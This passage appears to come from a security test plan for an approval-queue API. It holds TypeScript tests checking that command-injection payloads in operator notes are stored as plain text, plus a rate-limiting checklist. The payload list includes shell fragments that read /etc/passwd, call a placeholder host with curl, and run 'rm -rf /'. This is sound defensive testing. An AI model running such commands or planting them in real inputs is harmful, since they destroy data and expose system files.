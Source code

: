 ```typescript
    expect(response.status).toBe(400);
    expect(response.body.error).toContain('Invalid queue item ID');
  });
});
```

#### Command Injection Protection Tests
```typescript
describe('Command Injection Protection', () => {
  const COMMAND_PAYLOADS = [
    '; ls -la',
    '| cat /etc/passwd',
    '`whoami`',
    '$(curl malicious.com)',
    '; rm -rf /',
    '&& echo hacked',
    '|| id',
    '; cat /etc/passwd #'
  ];

  COMMAND_PAYLOADS.forEach((payload) => {
    test(`should prevent command injection: ${payload}`, async () => {
      const response = await POST('/api/approvals/escalate', {
        queueItemId: 'cmd-test',
        operatorNotes: payload
      });
      
      expect(response.status).toBe(200);
      
      // Verify notes stored safely (escaped)
      const { data } = await supabase
        .from('agent_sdk_approval_queue')
        .select('operator_notes')
        .eq('id', 'cmd-test')
        .single();
      
      // Notes should be stored as plain text, not executed
      expect(data.operator_notes).toBe(payload);
    });
  });
});
```

---

### 4. Rate Limiting & DoS Protection

#### Test Coverage
- ✅ Webhook endpoint rate limited (100 req/min per IP)
- ✅ Approval actions rate limited (60 req/min per operator)
- ✅ Queue queries rate limited (120 req/min per operator)
- ✅ Burst allowance for legitimate spikes
- ✅ Rate limit headers returned (X-RateLimit-*)
